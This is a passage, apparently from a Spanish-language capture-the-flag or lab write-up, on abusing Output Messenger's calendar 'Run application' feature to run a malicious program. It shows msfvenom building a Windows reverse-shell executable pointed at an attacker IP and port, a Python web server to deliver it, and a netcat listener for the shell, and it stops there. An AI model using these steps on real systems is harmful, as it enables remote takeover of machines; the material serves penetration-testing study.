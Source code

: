 #### Running a malicious binary to get a Reverse Shell with a Calendar "Run application" function on Output Messenger

Revisando las funciones de la aplicación, nos encontramos que a través de crear un nuevo evento en el calendario, eramos capaces de ejecutar una aplicación.

<figure><img src="../../.gitbook/assets/imagen (25) (1) (1).png" alt=""><figcaption></figcaption></figure>

Por lo tanto, lo que se probó a realizar es a crear un payload malicioso de una Reverse Shell. En este caso se utilizó `msfvenom` para crear un binario `.exe` malicioso que al ejecutarse nos proporcionaría una Reverse Shell. Compartiremos este binario malicioso a través de un servidor web.

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.5 LPORT=444 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde otra terminal, nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
```
